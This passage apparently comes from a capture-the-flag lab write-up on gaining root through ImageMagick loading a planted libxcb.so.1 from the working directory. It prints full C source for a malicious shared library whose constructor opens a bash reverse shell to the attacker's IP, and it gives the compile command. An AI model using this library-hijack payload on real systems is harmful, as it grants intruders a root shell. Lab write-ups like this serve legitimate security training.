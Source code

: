 It’s not calling `delegates.xml` nor processing `.XML` files, which is exactly why the first vector isn’t useful here. I’ve also tried renaming the extension to `.jpg` (and other tricks) to see if it executes the XML code, but it doesn’t, so it must be sanitized somehow behind the scenes.

On the other hand, ImageMagick automatically loads certain shared libraries, such as `libxcb.so.1`, on startup, and if the environment has a misconfigured `LD_LIBRARY_PATH` (**empty path**), it will search the current directory first. So I’m going to create a malicious shared library.

I create the malicious library named `shell.c`.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("bash -c 'bash -i >& /dev/tcp/10.10.16.5/443 0>&1'");
    exit(0);
}
```

I compile it.
```zsh
gcc -x c -shared -fPIC -o ./libxcb.so.1 shell.c
```
- `gcc`: calls the GNU compiler to compile C code.
- `-x c`: tells `gcc` that the file to compile is C code, even if it doesn't have a `.c` extension.
- `-shared`:indicates that I am compiling a shared library (`.so`, shared object), not an executable.
- `-fPIC`: generates Position Independent Code (PIC), which is required for shared libraries in Linux. This allows the library to be loaded at any memory address.
- `-o ./libxcb.so.1`: specifies the name of the output file, in this case a shared library that will masquerade as a legitimate system library.
- `shell.c`: the source file that contains the C code to be compiled.

I need it to be a shared library because the exploit relies on ImageMagick dynamically loading a library called `libxcb.so.1` at runtime. If you place your own malicious version in the same directory from which it's loaded, and it’s the first one found by `LD_LIBRARY_PATH`, then it will execute your `init()`.

I create the malicious library.
![library](/images/HTB/Pasted_image_20250718133814.png)

I compile the malicious library and, in a separate terminal, I start listening on port 443, which is where I’ll receive the reverse shell.
![compile](/images/HTB/Pasted_image_20250718133935.png)

After exactly one minute (when the script is executed), I get the shell as root.
![root](/images/HTB/Pasted_image_20250718134014.png)

![flag](/images/HTB/Pasted_image_20250718134111.png)
Chicharrón!
